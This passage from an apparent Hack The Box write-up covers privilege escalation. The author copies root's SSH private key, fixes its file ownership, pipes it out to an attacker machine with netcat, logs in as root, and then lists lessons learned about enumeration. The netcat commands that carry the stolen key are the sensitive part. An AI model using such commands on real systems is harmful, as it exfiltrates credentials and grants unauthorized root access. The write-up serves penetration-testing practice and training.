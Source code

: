 So to get a ***persistent*** root shell, I repeated the above steps. This time quickly copying-over root's ssh key into a place michael can access:

![nabbed root ssh key](nabbed root ssh key.png)

Super, let's try transferring that file over and logging in now.

> At this point, I realized I forgot to change the file owner! So even though michael can see the key, they cant access it. I performed the attack again, getting a new reverse shell, this time changing the file owner:
>
> ```bash
> chown michael:michael /home/michael/id_rsa.root
> ```

Then I transferred the file using nc:

(on the attacker box)

```bash
nc -lvnp 4444 > root_id_rsa
```

(as michael)

```bash
nc -nv 10.10.14.5 4444 < id_rsa.root
```

Then on my attacker machine I changed the key's permissions with ``chmod 700 root_id_rsa`` and logged in:

![root shell over ssh](root shell over ssh.png)

YES! Finally a nice solid ssh connection as root🎉



## LESSONS LEARNED

{{% lessons-learned attacker=true %}}

### Attacker

- **Take good notes; think critically** about what you wrote down. It may sound obvious, but this is the #1 way I've wasted time on HTB boxes: by accidentally passing over some small piece of information that I had already discovered, and forgetting to go back and check it. For this box, I almost missed enumerating the VHost that created a foothold.

- **Re-enumerate when you find a new piece of the attack surface**. It's easy to fall into the trap of thinking of enumeration as one big contiguous step - this is not the case at all. Whenever you discover a new domain, a new service, a new user, or a new API, it is essential to fully enumerate the thing you found. Keeping a methodical mindset will save lots of time in the long run.

- **Recognize when users or services seem out-of-place**. Even a print service can have a juicy exploit. This technique mostly comes with experience, but it is also good to have a "normal" computer around to compare the target to, to establish a bit of a baseline.
